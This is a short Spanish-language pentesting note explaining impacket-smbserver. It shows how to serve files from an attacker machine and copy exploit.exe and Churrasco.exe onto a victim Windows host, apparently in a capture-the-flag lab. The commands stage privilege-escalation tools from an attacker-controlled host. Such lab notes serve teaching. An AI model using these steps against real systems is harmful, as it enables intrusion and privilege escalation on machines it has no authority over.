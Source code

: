 #impacket-smbserver

---

Nos sirve para levantar un servidor [[smb]] y pasarnos archivos a la maquina victima

----
# Comandos

#### Maquina que vamos a usar como host
```
impacket-smbserver NombreDeCarpeta $(pwd) -smb2support

Ejemplo: impacket-smbserver smbfolder $(pwd) -smb2support
```
*Parametros:*
	`NombreDeLaCarpeta` Es el nombre de la carpeta del servidor, se le puede poner cualquier nombre
	`$(pwd)` Es para especificar que vamos a estar compartiendo la carpeta actual de trabajo
	`-smb2support` Sirve para que sea compatible a versiones viejas de [[smb]]


#### Maquina desde la cual vamos a descargar los archivos

```
copy \\Ip\NombreDeLaCarpeta\Archivo .

Ejemplo: copy \\10.10.16.15\smbfolder\exploit.exe .
```
*Parametros:*
	`NombreDeLaCarpeta` Es el nombre el cual pusimos a la carpeta cuando creamos el servidor con el primer comando
	`Archivo` Es el nombre del archivo que queremos descargar
	`.` Es para espeficiar que lo vamos a descargar en el directorio actual de trabajo y que se va a mantener el nombre original del archivo

----
### Ejemplo practico


Desde nuestra maquina de atacante, donde tenemos el ejecutable del [[Churrasco.exe]] vamos a levantar un [[impacket-smbserver]] con el comando `impacket-smbserver smbfolder $(pwd) -smb2support`
![[Granny18.png]]

Vamos a crear una carpeta llamada */tmp* en *C:* para poder tener permisos de escritura sin ningun tipo de problemas
Y desde la maquina victima vamos a descargar los archivos con `copy \\10.10.16.15\smbfolder\exploit.exe .` y `copy \\10.10.16.15\smbfolder\churrasco.exe .`